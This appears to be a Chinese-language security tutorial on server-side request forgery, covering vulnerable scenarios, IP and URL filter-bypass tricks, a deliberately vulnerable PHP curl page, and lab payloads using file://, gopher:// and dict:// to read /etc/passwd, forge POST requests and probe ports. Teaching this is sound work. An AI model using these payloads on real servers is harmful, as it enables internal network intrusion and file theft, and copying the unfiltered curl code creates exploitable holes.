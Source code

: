 # SSRF服务器端请求伪造
`SSRF`服务端请求伪造漏洞，也称为`XSPA`跨站端口攻击，是一种由攻击者构造一定的利用代码导致服务端发起漏洞利用请求的安全漏洞，一般情况下`SSRF`攻击的应用是无法通过外网访问的，所以需要借助目标服务端进行发起，目标服务器可以链接内网和外网，攻击者便可以通过目标主机攻击内网应用。

## 描述
`SSRF`是利用漏洞伪造服务器端发起请求，从而突破客户端获取不到数据限制，通常攻击者通过伪造服务器请求与内网进行交互，从而达到探测内网，对内网进行攻击的目的，通常与多种攻击方式相结合。服务器端请求伪造攻击将域中的不安全服务器作为代理使用，这与利用网页客户端的跨站请求伪造攻击类似，例如处在域中的浏览器可作为攻击者的代理。  
在一些情况下由于业务需要，服务端程序需要从其他服务器应用中获取数据，例如获取图片、数据等，但是由于服务器没有对其请求的目标地址做过滤和限制，导致黑客可以利用此缺陷请求任意服务器资源，其中就包含隐匿在内网的应用。很多情况下认为服务器在内网不会受到黑客攻击，便放任漏洞不管，不做补丁修复和版本升级，弱口令遍布内网，在`SSRF`漏洞面前这些漏洞都会造成很大危害。`SSRF`漏洞一般为`HTTP／HTTPS`方式出现，但类似`TCP Connect`方式也可以探测内网的IP活跃状态和端口的开放情况，但此类危害较小。

### SSRF漏洞易出现的场景
能够对外发起网络请求的地方，就可能存在`SSRF`漏洞。
* 从远程服务器请求资源`Upload from URL，Import & Export RSS Feed`。
* 数据库内置功能`Oracle、MongoDB、MSSQL、Postgres、CouchDB`。
* `Webmail`收取其他邮箱邮件`POP3、IMAP、SMTP`。
* 文件处理、编码处理、属性信息处理`ffmpeg、ImageMagic、DOCX、PDF、XML`。
* 通过`URL`地址分享页面。
* 未公开的`api`实现以及其他调用`URL`的功能。

### SSRF漏洞的利用
* 可以对外网、服务器所在内网、本地进行端口扫描，获取一些服务的`banner`信息。
* 攻击运行在内网或本地的应用程序，比如溢出。
* 对内网`web`应用进行指纹识别，通过访问默认文件实现。
* 攻击内外网的`web`应用，主要是使用`GET`参数就可以实现的攻击，比如`Struts2`、`sqli`等。
* 利用`file`协议读取本地文件等。

### 绕过方式
#### 攻击本机

```
http://127.0.0.1:80
http://localhost:22
```

#### 利用@绕过

```
http://example.com@127.0.0.1
# 这里的example.com可以任意替换，
```

#### 利用短地址绕过

```
http://127.0.0.1可以变为http://suo.im/5UHEvD
# 转换地址有很多，可以采用http://tool.chinaz.com/tools/dwz.aspx
```

#### 特殊域名绕过

```
http://127.0.0.1.xip.io/
http://www.margin.com.127.0.0.1.xip.io/
```

#### 利用Enclosed alphanumerics

```
ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ  >>>  example.com
List:
① ② ③ ④ ⑤ ⑥ ⑦ ⑧ ⑨ ⑩ ⑪ ⑫ ⑬ ⑭ ⑮ ⑯ ⑰ ⑱ ⑲ ⑳ 
⑴ ⑵ ⑶ ⑷ ⑸ ⑹ ⑺ ⑻ ⑼ ⑽ ⑾ ⑿ ⒀ ⒁ ⒂ ⒃ ⒄ ⒅ ⒆ ⒇ 
⒈ ⒉ ⒊ ⒋ ⒌ ⒍ ⒎ ⒏ ⒐ ⒑ ⒒ ⒓ ⒔ ⒕ ⒖ ⒗ ⒘ ⒙ ⒚ ⒛ 
⒜ ⒝ ⒞ ⒟ ⒠ ⒡ ⒢ ⒣ ⒤ ⒥ ⒦ ⒧ ⒨ ⒩ ⒪ ⒫ ⒬ ⒭ ⒮ ⒯ ⒰ ⒱ ⒲ ⒳ ⒴ ⒵ 
Ⓐ Ⓑ Ⓒ Ⓓ Ⓔ Ⓕ Ⓖ Ⓗ Ⓘ Ⓙ Ⓚ Ⓛ Ⓜ Ⓝ Ⓞ Ⓟ Ⓠ Ⓡ Ⓢ Ⓣ Ⓤ Ⓥ Ⓦ Ⓧ Ⓨ Ⓩ 
ⓐ ⓑ ⓒ ⓓ ⓔ ⓕ ⓖ ⓗ ⓘ ⓙ ⓚ ⓛ ⓜ ⓝ ⓞ ⓟ ⓠ ⓡ ⓢ ⓣ ⓤ ⓥ ⓦ ⓧ ⓨ ⓩ 
⓪ ⓫ ⓬ ⓭ ⓮ ⓯ ⓰ ⓱ ⓲ ⓳ ⓴ 
⓵ ⓶ ⓷ ⓸ ⓹ ⓺ ⓻ ⓼ ⓽ ⓾ ⓿
```

#### 利用句号代替点绕过

```
127.0.0.1 变为127。0。0。1
```

#### 使用其他进制绕过

```
127.0.0.1
8进制格式：0177.0.0.1
16进制格式：0x7F.0.0.1
10进制整数格式：2130706433（转16进制，再转10进制）
16进制整数格式：0x7F000001
还有一种特殊的省略模式，例如127.0.0.1这个IP可以写成127.1、10.0.0.1这个IP可以写成10.1
```

#### 特殊域名绕过

```
DNS解析
http://127.0.0.1.xip.io/
# 会解析到本地的127.0.0.1
```

## 实验靶机示例
使用`PHP`构建靶机作为示例，编写如下代码`test.php`，实际上避免这类攻击的重要原则就是过滤用户输入即永远不要相信用户的输入。

```php
<?php
// 创建一个新curl资源
$ch = curl_init();
// 设置URL和相应的选项
curl_setopt($ch, CURLOPT_URL, $_GET['url']);
curl_setopt($ch, CURLOPT_HEADER, false);
// 抓取URL并把它传递给浏览器
curl_exec($ch);
//关闭cURL资源，并且释放系统资源
curl_close($ch);
```

### file协议的运用
在上述示例中发起一个`GET`请求便可以获取敏感文件的信息。

```
http://192.168.163.150/test.php?url=file:///etc/passwd
```


### gopher协议的运用
`gopher`协议是比`http`协议更早出现的协议，现在已经不常用了，但是在`SSRF`漏洞利用中`gopher`可以说是万金油，因为可以使用`gopher`发送各种格式的请求包，这样变可以解决漏洞点不在`GET`参数的问题了。   
基本协议格式：`URL:gopher://<host>:<port>/<gopher-path>`。  
进行如下请求可以发送一个`POST`请求，且参数`cmd`的值为`balabal`，这里构造`gopher`请求的时候，回车换行符号要进行`2`次`url`编码`%250d%250a`。

```
http://192.168.163.150/test.php?url=gopher://192.168.163.1:80/_POST%20/evil.php%20HTTP/1.1%250d%250aHost:%20192.168.163.1%250d%250aUser-Agent:%20curl/7.43.0%250d%250aAccept:%20*/*%250d%250aContent-Type:%20application/x-www-form-urlencoded%250d%250a%250d%250acmd=balabala
```

### dict协议应用
`dict`协议是一个字典服务器协议，通常用于让客户端使用过程中能够访问更多的字典源，但是在`SSRF`中如果可以使用`dict`协议那么就可以轻易的获取目标服务器端口上运行的服务版本等信息。 

```
http://192.168.163.150/test.php?url=dict://192.168.163.1:3306/info 
```




## 参考

```
https://zhuanlan.zhihu.com/p/116039804
https://www.freebuf.com/column/157466.html
https://juejin.cn/post/6844903824948199431
https://www.cnblogs.com/bmjoker/p/9614789.html
https://blog.csdn.net/nz9611/article/details/96011013
https://zh.wikipedia.org/wiki/%E6%9C%8D%E5%8A%A1%E5%99%A8%E7%AB%AF%E8%AF%B7%E6%B1%82%E4%BC%AA%E9%80%A0
```

